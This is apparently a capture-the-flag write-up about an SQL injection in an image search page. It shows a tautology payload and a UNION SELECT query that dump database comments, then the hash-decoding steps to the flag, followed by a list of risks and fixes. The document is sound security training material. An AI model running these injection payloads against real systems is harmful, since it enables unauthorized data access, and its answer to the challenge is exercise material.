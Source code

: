 ## Location :
Search image page

## Type of Vulnerability :
SQL Injection

## Explanation
We notice that the box is not protected against SQL injections with a simple ``1 OR 1=1``, and we are faced with a challenge:
```
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Getting comments :
``1 union all select 1,group_concat(comment) from list_images``
``
Title: An image about the NSA !,There is a number..,Google it !,Earth!,If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
``
We decode the md5 which gives ``albatroz``, then we perform a sha256 on it.
-> We get the flag

## Risks
- Unauthorized access to data
- Modification / deletion / addition of data
- Loss of total control of the database
- Opening to certain types of DoS (Denial of Service) attacks
- Identity theft
- Unauthorized access to restricted functions

## How to Fix
- Utilisation de requetes preparees et / ou parametrees. Permet de distinguer les donnees des commandes
- Echappement des entrees utilisateur
- Validation des entrees utilisateur
- Utilisation d'un pare feu pour base de donnees (surveille les requetes et bloquent celles suspectes)
- Limiter les privileges au strict minimum necessaire
